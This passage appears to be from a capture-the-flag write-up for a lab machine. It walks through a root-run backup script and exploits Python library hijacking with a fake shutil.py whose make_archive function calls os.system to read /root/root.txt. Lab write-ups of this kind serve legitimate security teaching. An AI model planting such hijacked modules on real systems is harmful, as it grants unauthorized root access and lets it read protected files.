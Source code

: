         *) echo "Unknown option." >&2
    esac
done

exit 0
```

So this script is doing some stuff and making backup files
But what is interesting is that it is calling a python script to do web data backup

```
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

### BACKUP.PY

```python
waldo@admirer:/opt/scripts$ cat  backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

The python script is using the shutil library which we can exploit

We make a shutil.py file with a make_archive method in which we can add our code to read the root.txt

>We need to have three parameters in the make_archive method that we make 

```python
import os

def make_archive(a , b, c):
        os.system("cat /root/root.txt")
```

